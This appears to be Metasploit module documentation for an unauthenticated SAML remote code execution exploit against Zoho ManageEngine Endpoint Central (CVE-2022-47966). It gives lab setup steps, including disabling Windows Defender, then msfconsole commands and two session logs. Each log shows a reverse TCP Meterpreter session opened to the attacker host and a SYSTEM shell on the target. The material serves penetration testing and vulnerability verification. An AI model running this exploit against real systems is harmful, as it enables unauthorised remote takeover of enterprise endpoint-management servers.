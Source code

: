 ## Vulnerable Application
This exploits an unauthenticated remote code execution vulnerability that affects Zoho ManageEngine Endpoint Central and MSP
versions 10.1.2228.10 and below. See [ManageEngine security advisory](https://www.manageengine.com/security/advisory/CVE/cve-2022-47966.html).
Due to a dependency to an outdated library (Apache Santuario version 1.4.1), it is possible to execute arbitrary code
by providing a crafted samlResponse XML to the Endpoint Central SAML endpoint.

Note that the target is only vulnerable if SAML-based SSO is configured and enabled.

## Installation

### SAML 2.0 Identity Provider
If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this free one for testing: https://mocksaml.com/
Download the IdP xml information by pressing the button `Download Metadata`.

### Download the installers
Go to https://archives.manageengine.com/, fill the form with any data and select ManageEngine Endpoint Central product
with any version (e.g. 10.1.2228.10). You can then have access to all the versions and platform installers.
After downloading the Windows Installer, launch the installer and select all the default options
or make adjustments on the port you want to use by clicking Next.
(you can skip the Registration for Technical Support part, it is optional).

When the installation is done, select Start Endpoint Central Server and click Finish.
This will start a browser and get you to the login page.

### Enable SAML 2.0 SSO
- Go to http://localhost:8020 or other port that you configured during the installation.
- Log in as admin (default admin/admin)
- Go to http://localhost:8020/webclient#/uems/admin/saml-configuration
- Click on SAML Authentication at the ​​Global Settings menu at the left pane.

In Identity Provider Details section:
- Select `Other` option in the  `IdP provider` field
- Provide a name in the `IdP name` field
- Select `Username` option in the `ID Name` field
- Select the `Metadata` radio button in the `Configuration by uploading` field
- And last but not least upload the downloaded xml configuration file from Mock SAML in the `Upload metadata` field
- Click save and you are done

## Verification Steps
- [ ] Start `msfconsole`
- [ ] use `exploit/windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966`
- [ ] set `LHOST` with target IP
- [ ] set `LPORT` with target port
- [ ] set `TARGET` with `0` (Windows EXE dropper) or `1` (Windows Command)
- [ ] `exploit`

You should get a `shell` or `meterpreter` session depending on the target and payload settings.

**Note:** `Windows Defender` might get in the way, depending on the version your are running so disable it on your Windows Machine.
The same applies for `Windows Defender Firewall` if you can not access the  application. Your port might be blocked.

In the test cases below, ManageEngine Endpoint Central version `10.1.2228.5` was tested on Microsoft Server 2019 Standard
with Windows Defender disabled otherwise all standard payloads will fail.

## Options

### TARGETURI
The Endpoint Central SAML endpoint URL. Set to `/SamlResponseServlet` by default.

### DELAY
This sets the number of seconds to wait between each request. It is
particularly useful when using a big payload with the `cmdstager` (Target 0),
which requires sending multiple requests to the target. Endpoint Central has an
anti-DoS mechanism that blocks the source IP address if requests are sent too
fast. This option is set to 5 seconds by default, which seems to be a safe
value.

## Scenarios

### Endpoint Central version 10.1.2228.5 - Target 1 (Windows Command)
```
msf exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > set rhosts 192.168.100.58
rhosts => 192.168.100.58
msf exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. SAML-based SSO is enabled.
[*] Executing Windows Command for cmd/windows/powershell/meterpreter/reverse_tcp
[*] Sending stage (175686 bytes) to 192.168.100.58
[*] Meterpreter session 1 opened (192.168.100.7:4444 -> 192.168.100.58:55450) at 2023-01-29 07:19:10 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 4100 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\DesktopCentral_Server\bin>
```
### Endpoint Central version 10.1.2228.5 - Target 0 (Windows EXE dropper)
```
msf exploit(windows/http/manageengine_endpoint_central_saml_rce_cve_2022_47966) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. SAML-based SSO is enabled.
[*] Executing Windows EXE Dropper for windows/x64/meterpreter/reverse_tcp
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.58
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 3 opened (192.168.100.7:4444 -> 192.168.100.58:55489) at 2023-01-29 07:22:47 +0000

meterpreter > shell
Process 7364 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\DesktopCentral_Server\bin>
```

## Limitations
No limitations identified.
